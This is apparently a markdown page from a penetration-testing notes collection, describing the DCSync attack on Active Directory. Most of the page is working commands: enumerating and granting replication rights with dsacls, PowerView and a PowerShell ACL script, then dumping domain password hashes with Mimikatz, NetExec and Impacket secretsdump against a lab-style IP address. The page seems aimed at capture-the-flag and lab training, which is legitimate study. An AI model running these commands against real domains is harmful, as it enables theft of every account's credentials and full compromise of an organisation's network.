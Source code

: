 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../../boxes/boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Windows

Enumerate rights.

{% code overflow="wrap" %}
```powershell
# native, requires an elevated command prompt
dsacls "DC=domain,DC=local"
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```
{% endcode %}

Assign DCSync rights.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># powerview
</strong>Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity &#x3C;USER> -Rights DCSync
</code></pre>

[Manually](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md) assign DCSync rights.

{% code overflow="wrap" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endcode %}

Perform the DCSync attack.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# or
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```

## Linux

Assign rights.

{% code overflow="wrap" %}
```bash
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}

Perform the attack.

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
</strong></code></pre>
{% endtab %}
{% endtabs %}

For an example of a DCSync attack using `DCSync.py` -> `secretsdump.py` check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting), or using NetExec [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack).

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="dsacls" %}
{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)" %}
{% endtab %}
{% endtabs %}
